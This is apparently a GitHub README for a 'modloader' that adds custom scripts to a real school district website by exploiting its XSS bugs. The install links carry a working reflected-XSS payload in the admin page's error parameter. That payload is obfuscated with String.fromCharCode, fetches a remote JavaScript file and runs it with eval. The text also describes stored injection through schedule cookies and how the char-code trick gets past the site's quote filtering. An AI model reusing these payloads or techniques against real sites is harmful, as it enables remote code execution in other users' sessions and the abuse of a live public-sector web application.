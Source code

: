 ${{\color{#a80f1f}\Huge{\textsf{R}}}}{{\color{#a80d24}\Huge{\textsf{H}}}}{{\color{#a80c2a}\Huge{\textsf{S}}}}{{\color{#a80b2e}\Huge{\textsf{-}}}}{{\color{#a70c33}\Huge{\textsf{M}}}}{{\color{#a70d38}\Huge{\textsf{o}}}}{{\color{#a60f3c}\Huge{\textsf{d}}}}{{\color{#a51241}\Huge{\textsf{l}}}}{{\color{#a31445}\Huge{\textsf{o}}}}{{\color{#a21749}\Huge{\textsf{a}}}}{{\color{#a01a4d}\Huge{\textsf{d}}}}{{\color{#9e1d51}\Huge{\textsf{e}}}}{{\color{#9c2055}\Huge{\textsf{r}}}}$
<br><br>An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

> [!WARNING]  
> ***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

## Installing
<a href="https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>">
  <img src="images/rps-RHS-watch.png" width="100" height="100" alt="Click To Install">
</a><br><br>Click the circle.

## Features
- Completely custom theme/plugin support using js/css with headers for name, author, description, and version
- Saving state of enabled plugins/themes and loading them on site launch
- CTRL + Y keybind to wipe everything in the case of something going wrong or a mod goes haywire
- Floating Monaco text editor window (vscode) built in to the site to develop and edit mods in-site
- As this is unfinished, this is not the full list of features. more will be added soon.
  
## Planned (by priority)
- Store to one-click download mods
- A bunch of smaller mods
- Timer improvements [Will be pushed to store]
- Accounts? Would also make store better
- Electron app

# [MOD MAKING GUIDE](https://github.com/PoyOzk/RHS-Modloader/wiki)

## OLD INSTALLATION METHOD

~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

## How this works

> [!NOTE]  
> I want to preface this by saying this isn't illegal. That's usually the first thought for many when they realize the website has effectively been hacked, but that is ignoring the nature of this exploit: The user has to install this themself. This is client-sided. The school website is not effected in any way due to this, and you are loading the HTML exploit onto your own device. This can definetly be used for malicous intent, but I have zero intention of doing so with this project. I just want to enhance and improve the RHS website, and I have found a way to give that to everyone without a third party computer. Hopefully you do too.

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
